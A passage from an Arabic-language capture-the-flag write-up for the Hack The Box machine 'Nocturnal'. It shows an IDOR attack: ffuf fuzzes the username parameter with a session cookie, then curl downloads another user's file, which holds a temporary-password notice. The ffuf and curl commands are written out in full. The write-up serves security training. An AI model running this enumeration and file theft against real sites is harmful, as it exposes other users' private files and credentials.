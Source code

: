 ![IDOR_DISCLOSURE](../assets/img/nocturnal_uploaded_files_disclosure.png)
طيب، ليش مانجرب نغير اسم المستخدم؟ هذا اللي راح اسويه باستخدام ffuf:
```bash
ffuf -u 'http://nocturnal.htb/view.php?username=FUZZ&file=habibi.pdf' -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -H "Cookie: PHPSESSID=s3jn9f3r72i91h817oebeg51t5" -mr "Available files"



admin                   [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 116ms]
amanda                  [Status: 200, Size: 3113, Words: 1175, Lines: 129, Duration: 139ms]
tobias                  [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 127ms]
```
عندنا ثلاث مستخدمين، الوحيد فيهم اللي عنده ملف هو المستخدم amanda بعنوان privacy.odt، خلينا نطلع على محتويات الملف:
```bash
curl 'http://nocturnal.htb/view.php?username=amanda&file=privacy.odt' -H 'Cookie: PHPSESSID=s3jn9f3r72i91h817oebeg51t5' -o privacy.odt

xdg-open privacy.odt
```
هذا محتوى الملف:
```text
Dear Amanda,
Nocturnal has set the following temporary password for you: <REDACTED>. This password has been set for all our services, so it is essential that you change it on your first login to ensure the security of your account and our infrastructure.
The file has been created and provided by Nocturnal's IT team. If you have any questions or need additional assistance during the password change process, please do not hesitate to contact us.
Remember that maintaining the security of your credentials is paramount to protecting your information and that of the company. We appreciate your prompt attention to this matter.

Yours sincerely,
Nocturnal's IT team
```
